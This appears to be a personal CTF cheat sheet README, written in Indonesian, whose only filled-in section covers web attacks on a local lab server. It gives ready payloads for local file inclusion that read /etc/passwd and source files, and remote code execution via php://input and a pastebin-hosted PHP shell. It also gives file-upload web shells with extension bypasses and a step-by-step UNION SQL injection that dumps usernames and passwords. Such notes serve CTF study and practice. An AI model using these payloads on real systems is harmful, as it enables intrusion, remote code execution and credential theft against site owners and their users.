 # CTF

* Web Security
* Reverse Engineering
* Binary Exploitation
* Cryprographi
* Forensic
* Steganography

<hr>

### Web Security

#### LFI & RCF

misal web dengan link

    http://192.168.43.207/ipb/ipbScript/PHP-LFI/index.php?page=page3.php

`...?page=page1.php`

dapat diganti

    ...?page=/etc/passwd
    ...?page=/etc/passwd%00 (php kuno)
    ...?page=../../../../../../../../../etc/passwd
    ...?page=php://filter/convert.base64-encode/resource=index.php
    ...?page=php://filter/convert.base64-encode/resource=index
    ...?page=http://localhost/(file .txt)?

use terminal

    curl -X "POST" -d "<?php echo shell_exec('cat /etc/passwd')?>" "http://192.168.43.207/ipb/ipbScript/PHP-LFI/index.php?page=php://input"

use pastebin.com

1. new paste
2. masukkan code
    ```php
    <pre>
    <?php
        echo "Tes RCE";
        echo shell_exec("ls -la");
    ?>
    </pre>
    ```
3. Paste expiration : 1 jam aja
4. Create New Paste
5. raw
6. ambil link raw
7.

    ...?page=http://pastebin.com/raw/(link)

<hr>

#### File Upload

membuat file tes.php

```php
<pre>
<?php
    echo shell_exec("ls -la /");
?>
</pre>
```
menggunakan burp suit
    
    edit type file
    rename file ->
        .php, .php3, .php4, .php5, .php7, .pht, .phtml 

<hr>

#### SQL Injection
    y'-- 
    y' OR 1=1 '-- 

misal url

    192.168.43.207/ipb/ipbScript/blog/post.php?id=1

diganti

    ...id=999999999 UNION SELECT 1,2,3,..., (sampai pas)

cari nama data base :
    
    ...id=999999999 UNION SELECT 1,database(),3,user()

cari nama tabel :

    ...id=999999999 UNION SELECT 1,group_concat(table_name),3,4 FROM information_schema.tables WHERE table_schema=database()

cari kolom tabel :

    ...id=999999999 UNION SELECT 1,group_concat(column_name),3,4 FROM information_schema.columns WHERE table_schema = database() AND table_name = 'user'

next
    
    ...id=999999999 UNION SELECT 1,username,3,password FROM user
    ...id=999999999 UNION SELECT 1,username,3,password FROM user LIMIT 0/1/2,1 (baris/kolom ke ...)
    ...id=999999999 UNION SELECT 1,group_concat(username),3,group_concat(password) FROM user


